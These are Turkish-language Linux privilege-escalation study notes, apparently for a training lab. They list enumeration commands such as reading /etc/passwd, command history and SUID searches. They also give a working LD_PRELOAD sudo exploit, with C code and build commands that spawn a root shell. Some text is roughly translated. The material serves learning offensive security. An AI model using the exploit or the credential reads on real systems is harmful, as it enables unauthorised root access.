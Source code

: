 
```bash
hostname
```
Komut hostname hedef makinenin ana bilgisayar adını döndürecektir. Bu değer kolayca değiştirilebilse veya nispeten anlamsız bir dizeye sahip olsa da (örneğin Ubuntu-3487340239), bazı durumlarda hedef sistemin kurumsal ağ içindeki rolü hakkında bilgi sağlayabilir (örneğin bir üretim SQL sunucusu için SQL-PROD-01).
---

```bash
uname -a
```
Sistem tarafından kullanılan çekirdek hakkında bize ek ayrıntılar veren sistem bilgilerini yazdıracaktır. Bu, ayrıcalık artışına yol açabilecek olası çekirdek güvenlik açıklarını ararken faydalı olacaktır.

---

```bash
cat /proc/version
```
Proc dosya sistemi (procfs), hedef sistem süreçleri hakkında bilgi sağlar. Proc'u birçok farklı Linux sürümünde bulabilirsiniz, bu da onu cephaneliğinizde bulundurmanız gereken önemli bir araç haline getirir.

Bakmak /proc/versionsize çekirdek sürümü ve derleyicinin (örneğin GCC) yüklü olup olmadığı gibi ek veriler hakkında bilgi verebilir.
---
```bash
cat /etc/issue
```
Sistemler ayrıca dosyaya bakılarak da tanımlanabilir /etc/issue. Bu dosya genellikle işletim sistemi hakkında bazı bilgiler içerir ancak kolayca özelleştirilebilir veya değiştirilebilir. Konu açılmışken, sistem bilgisi içeren herhangi bir dosya özelleştirilebilir veya değiştirilebilir. Sistem hakkında daha net bir anlayış için, bunların hepsine bakmak her zaman iyidir.
---

ps Komutu
Komut, Linuxps  sisteminde çalışan işlemleri görmenin etkili bir yoludur .  Terminalinize yazdığınızda geçerli kabuk için işlemler gösterilecektir. ps

(İşlem Durumu) çıktısı ps aşağıdakileri gösterecektir;

- PID: İşlem kimliği (işleme özgü)
- TTY: Kullanıcı tarafından kullanılan terminal türü
- Zaman: İşlem tarafından kullanılan CPU zamanı miktarı (bu, işlemin çalıştığı zaman DEĞİLDİR)
- CMD: Çalışan komut veya yürütülebilir dosya (herhangi bir komut satırı parametresini görüntülemez)
“ps” komutu birkaç yararlı seçenek sunar.

- ps -A: Çalışan tüm işlemleri görüntüle
- ps axjfps axjf: İşlem ağacını görüntüle ( aşağıda çalıştırılana kadar ağaç oluşumunu görün )
- ps aux: Bu aux seçenek tüm kullanıcılar için işlemleri gösterecek (a), işlemi başlatan kullanıcıyı gösterecek (u) ve bir terminale bağlı olmayan işlemleri gösterecektir (x). ps aux komut çıktısına baktığımızda sistem ve olası güvenlik açıkları hakkında daha iyi bir anlayışa sahip olabiliriz.

```bash
ps aux
```
---
Env variables
![image](https://github.com/user-attachments/assets/ea6b8963-10a4-4940-9c0b-0621abda5a43)

```bash
env
```
PATH değişkeni, hedef sistemde kod çalıştırmak veya ayrıcalık yükseltme için kullanılabilecek bir derleyiciye veya betik diline (örneğin Python) sahip olabilir.


---

#Yetki aramaları

```bash
sudo -l
```
Çıktıda LD_PRELOAD ortam değişkeni varsa bunu aşağıda sudo yetkileri ile kullanabiliriz 

mesela çıktıda :
```bash
env_keep+=LD_PRELOAD 
(root) NOPASSWD: /usr/bin/nmap 
```
bunu bulursak 
bir dosya içine aşağıdaki yada kendi shelimiz ne ise onu kullanabiliriz örn:

``` c++
#include <sys/types.h> #include <stdlib.h>
void _init() { unsetenv("LD_PRELOAD");
setgid(0);
setuid(0); system("/bin/bash");
}
#include <stdio.h>
```
shell.c olarak kaydettik 

```bash
gcc -fPIC -shared -o /tmp/shell.so shell.c -nostartfiles 
# daha sonra
sudo LD_PRELOAD=/tmp/shell.so nmap
```
burası bizi root'a götürücek 
 
```bash
whoami
#root
```

Hedef sistem, kullanıcıların bazı (veya tüm) komutları kök ayrıcalıklarıyla çalıştırmasına izin verecek şekilde yapılandırılabilir. sudo -l Komut, kullanıcınızın . kullanarak çalıştırabileceği tüm komutları listelemek için kullanılabilir sudo.

---

İD
Komut, id kullanıcının ayrıcalık düzeyi ve grup üyelikleri hakkında genel bir bakış sağlayacaktır.
```bash
id
```
id Aşağıda görüldüğü gibi komutun başka bir kullanıcı için de aynı bilgiyi almak amacıyla kullanılabileceğini hatırlatmakta fayda var .

---

```bash
cat /etc/passwd
```
veya 
 Başka bir yaklaşım da "home" için grep yapmak olabilir, çünkü gerçek kullanıcıların klasörleri büyük ihtimalle "home" dizini altında olacaktır.
Dosyayı okumak /etc/passwd sistemdeki kullanıcıları keşfetmenin kolay bir yolu olabilir.

```bash
cat /etc/passwd | grep home
```
---

``` bash
history
```
Komutla ilgili daha önceki komutlara bakmak  history bize hedef sistem hakkında fikir verebilir ve nadiren de olsa şifreler veya kullanıcı adları gibi saklanmış bilgiler içerebilir.

---

netstat
Mevcut arayüzler ve ağ rotaları için ilk kontrolün ardından, mevcut iletişimlere bakmakta fayda vardır. netstatKomut, mevcut bağlantılar hakkında bilgi toplamak için birkaç farklı seçenekle birlikte kullanılabilir.

``` bash
netstat
```

netstat -a: tüm dinleme portlarını ve kurulan bağlantıları gösterir.
netstat -atveya sırasıyla TCP veya UDP protokollerini netstat -aulistelemek için de kullanılabilir .
netstat -l: “dinleme” modunda portları listeler. Bu portlar açıktır ve gelen bağlantıları kabul etmeye hazırdır. Bu, yalnızca TCP protokolünü (aşağıda) kullanarak dinleyen portları listelemek için “t” seçeneğiyle kullanılabilir

---
Komutu bul
Hedef sistemde önemli bilgiler ve potansiyel ayrıcalık yükseltme vektörleri aramak verimli olabilir. Dahili "find" komutu kullanışlıdır ve cephaneliğinizde bulundurmaya değer.

Aşağıda “find” komutu için bazı yararlı örnekler verilmiştir.
hataları "/dev/null"a yönlendirmek ve daha temiz bir çıktı elde etmek için "find" komutunu "-type f 2>/dev/null" ile kullanmak akıllıca olacaktır 
Dosyaları bul:
- find / -writable -type d 2>/dev/null 
- find . -name flag1.txt: geçerli dizinde “flag1.txt” adlı dosyayı bulun
- find /home -name flag1.txt: /home dizinindeki “flag1.txt” dosya adlarını bulun
- find / -type d -name config: “/” altında config adlı dizini bulun
- find / -type f -perm 0777: 777 izinlerine sahip dosyaları bul (tüm kullanıcılar tarafından okunabilir, yazılabilir ve çalıştırılabilir dosyalar)
- find / -perm a=x: çalıştırılabilir dosyaları bul
- find /home -user frank: “frank” kullanıcısına ait tüm dosyaları “/home” altında bul
- find / -mtime 10: Son 10 günde değiştirilen dosyaları bul
- find / -atime 10: Son 10 günde erişilen dosyaları bul
- find / -cmin -60: Son bir saat (60 dakika) içinde değiştirilen dosyaları bul
- find / -amin -60: Son bir saat (60 dakika) içinde erişilen dosyaları bul
- find / -size 50M: 50 MB boyutundaki dosyaları bul
Bu komut, belirtilen boyuttan daha büyük veya daha küçük bir dosyayı belirtmek için (+) ve (-) işaretleriyle birlikte de kullanılabilir.

``` bash
find . -name flag1.txt
```
Dosyayı geçerli kullanıcıdan daha yüksek bir ayrıcalık seviyesiyle çalıştırmamızı sağlayan SUID bitine sahip dosyaları bulun.
``` bash
find / -perm -u=s -type f 2>/dev/null
```
---








